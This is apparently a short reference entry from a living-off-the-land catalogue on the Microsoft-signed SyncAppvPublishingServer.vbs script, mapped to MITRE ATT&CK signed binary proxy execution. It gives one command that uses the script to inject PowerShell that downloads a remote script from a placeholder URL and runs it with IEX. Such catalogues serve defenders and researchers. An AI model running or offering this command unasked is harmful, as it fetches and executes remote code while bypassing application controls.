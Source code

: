 ## SyncAppvPublishingServer.vbs

* Functions: Execute

```
SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
```

Acknowledgements:
* Nick Landers - @monoxgas
* Casey Smith - @subTee

Code sample:

Resources:
* https://twitter.com/monoxgas/status/895045566090010624
* https://twitter.com/subTee/status/855738126882316288

Full path:
```
C:\Windows\System32\SyncAppvPublishingServer.vbs
```

Notes:
Just like [SyncAppvPublishingServer.exe](OSBinaries/Syncappvpublishingserver.md) this starts a Powershell script with the provided arguments.

Included with Windows 10 Enterprise. Script is catalog signed by Microsoft.
 
MITRE ATT&CK:
* [Signed Binary Proxy Execution](https://attack.mitre.org/wiki/Technique/T1218)
